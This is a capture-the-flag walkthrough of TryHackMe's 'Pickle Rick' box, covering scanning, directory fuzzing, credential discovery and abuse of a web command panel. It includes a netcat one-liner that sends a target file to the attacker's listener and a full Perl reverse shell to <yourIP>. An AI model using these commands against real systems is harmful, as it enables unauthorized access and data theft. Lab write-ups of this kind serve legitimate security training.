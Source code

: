 # Pickle Rick
This is a truly fun, easy box, great for beginners, and quite entertaining for 'Rick and Morty' fans.

![Pickle-Rick](../Images/thm_pickle-rick_1.png)

**Tools: nmap, dirsearch, netcat.**

Because TryHackMe's machines don't have specific IPs assigned to them (and I had to restart my instance during the CTF, thus changing its IP), I'll simply use \<targetIP> where you should put the target's IP.

We begin with the nmap scan:  
`nmap -Pn -sC -sV --min-rate=10000 <targetIP>`

![Pickle-Rick](../Images/thm_pickle-rick_2.png)

Ports 22 (SSH) and 80 (HTTP) are open. Taking a look at the webpage, we see the following:

![Pickle-Rick](../Images/thm_pickle-rick_3.png)

So we're tasked with finding 3 flags (ingredients). Looking at the page's source, we also see this:

![Pickle-Rick](../Images/thm_pickle-rick_4.png)

We'll save the username for later. Now we can run a fuzzer, such as dirsearch:  
`dirsearch -u http://<targetIP>`

![Pickle-Rick](../Images/thm_pickle-rick_5.png)
  
The robots.txt file shows us 'Wubbalubbadubdub'. The login.php brings us a login form, we can try to authenticate using the username we've just found, and maybe the string from the robots file as the password...
  
![Pickle-Rick](../Images/thm_pickle-rick_6.png)
  
We're able to login with those credentials. In the webpage we see a Command Panel. In the www-data user root directory, we can see a txt file containing a 'super secret ingredient', which we can read directly from the browser - this is our first ingredient.  
`http://<targetIP>/Sup3rS3cretPickl3Ingred.txt`

![Pickle-Rick](../Images/thm_pickle-rick_7.png)
  
For the next steps, keep in mind that the 'cat' command is disabled for this command panel, so we can't easily read the files. After some manual enumeration, I found the 'second ingredients' file at /home/rick, so I've managed to send this file to my VM through a quick netcat reverse shell.

In your machine start a netcat session:  
`nc -vnlp 9003 > file.txt`

![Pickle-Rick](../Images/thm_pickle-rick_8.png)

Then in the command panel:  
`/bin/sh | nc <yourIP> 9003 < /home/rick/'second ingredients'`

![Pickle-Rick](../Images/thm_pickle-rick_9.png)

Simply read the file.txt to grab the second ingredient.  
Using sudo -l shows us that we can run everything with 'sudo'.

![Pickle-Rick](../Images/thm_pickle-rick_10.png)

I've tried quite a few creative ways to grab the flag from the command panel, but nothing worked. I've decided to start a reverse shell.  
In your machine start a netcat session:  
`nc -vnlp 9003`

Then in the command panel, you can run this perl revshell (just change the IP to your VPN's IP):  
`perl -e 'use Socket;$i="<yourIP>";$p=9003;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

![Pickle-Rick](../Images/thm_pickle-rick_11.png)

Now with the reverse shell in our machine, we can spawn a fully interactive shell (for the sake of it, I always do this):  
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now, after some previous enumeration, I've seen that inside the /home/ubuntu there are some hidden files (which we can see by using the 'ls -la' command), one of them is the .bash_history, and if we read this file we'll be able to grab the 3rd ingredient.  
`cat /home/ubuntu/.bash_history`

Another way of doing this is by reading the txt file from the '/root' directory.

**That's all for this box!**  
Thanks for reading and keep hacking!
